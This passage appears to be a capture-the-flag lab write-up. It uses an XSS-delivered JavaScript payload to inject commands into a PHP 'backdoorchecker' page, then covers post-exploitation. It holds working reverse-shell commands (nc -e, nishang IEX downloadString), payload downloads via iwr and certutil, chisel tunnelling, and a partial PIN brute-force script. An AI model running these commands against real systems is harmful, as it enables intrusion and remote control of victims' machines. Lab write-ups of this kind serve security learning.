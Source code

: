 ``` javascript
#On my machine edit the pwn.js
var request = new XMLHttpRequest();
	params = 'cmd=dir|powershell -c "iwr -uri http://10.10.14.2/nc64.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd 10.10.14.2 1234'
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-Type'; 'application/x-www-form-urlencoded');
request.send(params);

sudo python -m http.server 80
rlwrap nc -nlvp 1234

#On the web http://10.10.10.154/user/

<script src="http://10.10.14.2/pwn.js"></script>
```

In this way, I gain access to the victim machine.

Now I need to escalate privileges
``` bash
whoami /priv (nothing)
net user cortin (nothing)
net user (users: Admin, Gast)
netstat -nat (port 910 open internaly)
tasklist (pexisting process "bankv2.exe" PID 1580)
netstat -ano (bankv2.exe using port 910)
cd %temp%
.\nc.exe 127.0.0.1 910

# revershell via powershell using nishang
python -m http.server 80
rlwrap nc -nlvp 1234

# On victim machine
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/ps.ps1')"

```

there's an internal application that requests a PIN, which I can try to bruteforce.

``` python
# make a socks5 with chisel to access the internal port outside the victim machine
#On victim machine
iwr -uri http://10.10.14.3/chisel.exe -OutFile chisel.exe #or certutil.exe -f -urlcache -split http://10.10.14.3/chisel.exe chisel.exe
.\chisel client 10.10.14.3:1234 R:socks #or .\chisel client 10.10.14.3:1234 R:910:127.0.0.1:910

#On my machine
python -m http.server 80
./chisel server --reverse -p 1234

```

I'll create a Python or bash script to brute force the application
``` bash
#!/bin/bash
#
pins_list="pins.txt"
while IFS= read -r line; do 
  echo -ne "\r$line"
  tput el 

  echo $line | proxychains &>/dev/null netcat 10.10.10.154 910 > test &


  sleep 1  
```